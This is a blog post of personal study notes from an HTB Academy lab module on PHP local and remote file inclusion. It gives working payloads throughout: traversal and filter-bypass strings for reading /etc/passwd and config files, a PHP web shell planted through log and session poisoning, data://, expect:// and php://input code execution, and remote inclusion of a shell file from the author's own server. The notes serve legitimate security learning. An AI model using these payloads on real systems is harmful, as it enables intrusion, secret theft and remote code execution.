 ```yaml
---
title: Local File Inclusion 
date: 2020-11-25 18:08:00 +/- 0000
categories: [Notes, LFI]
tags: [LFI, RFI, RCE, log-poisoning, Burpsuite]
headline: File inclusion notes.
image: /assets/img/lfi/lfi99.png
---
```


My notes from the HTB Academy LFI/RFI module.

### Discovering LFI

## Basic

Seeing an equal sign is always a good indicator that a Local File Inclusion vulnerability may exist.

In this url: ```http://143.110.175.213:31437/basic/index.php?language=es.php``` we can replace the ***es.php*** with something more fun, like **/etc/passwd**: ```http://143.110.175.213:31437/basic/index.php?language=/etc/passwd```

Which reveals the passwd file.

![pic](/assets/img/lfi/lfi1.png)

## Blacklists

Bypassing blacklists can be done a few different ways. A good wordlist should explore all of them. Here is an example of running FFuF with a wordlist looking for valid LFI.

```shell
ffuf -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u $ip/blacklist/index.php?language=FUZZ -fw 370 -fl 65
```

The ```-fw 370 -fl 65``` were used here to weed out unwanted results.

This is a bit of php code that will negate your attempt to traverse directories by removing **../** . 

![pic](/assets/img/lfi/lfi2.png)


An easy way around this is with **....//....//** . When **../** is removed by the script, it acutually results in **../** . Have a think about it, you'll figure it out. Using this in practice would look like ```http://143.110.175.213:31437/blacklist/index.php?language=....//....//....//....//....//etc/passwd```

You can also try to beat a blacklist with url encoding. This string is the same as the blacklist beater above: ```%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd```

Wildcard characters may also work: ```.?/.*/.?/etc/passwd```

## Appended Extensions and Wrappers

Certain php codes will append any file requested with .php. When we try to get clever and and ask for /etc/passwd, we actually end up asking for /etc/passwd.php, which obviously does not exist. By using certain **php wrappers** we can try to get clever once again.

Here is a [list of common wrappers](https://www.php.net/manual/en/wrappers.php.php), but 3 useful ones are:
* php://filter/read=convert.base64-encode/resource=/etc/passwd
* php://filter/read=string.rot13/resource=/etc/passwd
* expect://id

Using a wrapper and converting to base64 will allow us to read the *config.php* file with the following input: ```$ip/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config```

In the web browser the result looks like this:

![pic](/assets/img/lfi/lfi3.png)

```shell
curl $ip/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

Looks like this:

![pic](/assets/img/lfi/lfi4.png)

And decoding in Kali with ```echo $string | base64 -d``` gives up a few goodies.

![pic](/assets/img/lfi/lfi5.png)

### LFI to RCE

## RCE via Apache or Nginx Log Files (Log Poisoning)

Using basic LFI to view the **/var/log/apache2/acces.log** file: ```$ip/index.php?language=/var/log/apache2/access.log```

![pic](/assets/img/lfi/lfi6.png)

Fire up Burpsuite and catch the request. Modify the User-Agent to something else and see if it shows up in the log.

![pic](/assets/img/lfi/lfi7.png)

A bit easier to see in *pretty* mode.

![pic](/assets/img/lfi/lfi8.png)

Since we know we can poison the log, let's put something more fun than a flying monkey in the User-Agent field like a php shell: ```<?php system($_GET['mnky']); ?>```. Append the GET request with ```&mnky=id``` and we should be able to see the id command executed.

![pic](/assets/img/lfi/lfi10.png)

We can see the id command was executed in the response.

![pic](/assets/img/lfi/lfi9.png)

Other files worth investigating:

* /var/log/nginx/access.log
* /var/log/sshd.log
* /var/log/mail
* /var/log/vsftpd.log

## RCE via PHP Session Files

PHPSESSID in Burp:

![pic](/assets/img/lfi/lfi11.png)

This should be logged in **/var/lib/php/sessions/sess_inl681c2i54l6022ttsaa8p2fm** so let's use basic LFI to poison the session with *Flying M0nkey*: ```$ip/index.php?language=Flying_M0nkey``` and then check the session with: ```$ip/index.php?language=/var/lib/php/sessions/sess_inl681c2i54l6022ttsaa8p2fm```.

Huzzah!

![pic](/assets/img/lfi/lfi12.png)

Now doing the same with our web shell: ```$ip/index.php?language=<?php system($_GET['mnky']); ?>```.

![pic](/assets/img/lfi/lfi13.png)

We should now be able to issue a command: ```$ip/index.php?language=/var/lib/php/sessions/sess_inl681c2i54l6022ttsaa8p2fm&mnky=uname+-a```. I've gone for **uname -a**; note the plus sign used to take up the space in the url.

![pic](/assets/img/lfi/lfi14.png)

## Data Wrapper

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration. This can be found in the file /etc/php/X.Y/apache2/php.ini for Apache and in /etc/php/X.Y/fpm/php.ini for php-fpm used by Nginx, where X.Y is your install PHP version.

base64 encode our php shell.

![pic](/assets/img/lfi/lfi15.png)

Submit the url: ```$ip/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW21ua3ldKTsgPz4K&mnky=id``` and hopefully we will see the *id* command executed.

![pic](/assets/img/lfi/lfi16.png)

## Expect Wrapper

The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. ```$ip/index.php?language=expect://id```

![pic](/assets/img/lfi/lfi17.png)

## Inupt Wrapper

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled. The following curl command sends a POST request with a system command and then includes it using php://input, which gets executed by the page.

```shell
curl -s -X POST --data "<?php system('id'); ?>" "$ip/index.php?language=php://input" | grep uid
```

![pic](/assets/img/lfi/lfi18.png)

Using the input wrapper to read /secrets/flag.txt.

![pic](/assets/img/lfi/lfi19.png)

### Remote File Inclusion

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on.

The mnky.php file has a php one liner in it. Start a server and get it with the RFI: ```$ip/index.php?language=http://10.10.15.208/mnky.php?mnky=id```

You can see that a request is made to my Python server and and it executes the id command on the web page.

![pic](/assets/img/lfi/lfi20.png)
![pic](/assets/img/lfi/lfi21.png)

That's it for now; I'm sure there will be more added all the time.

M0nkey out.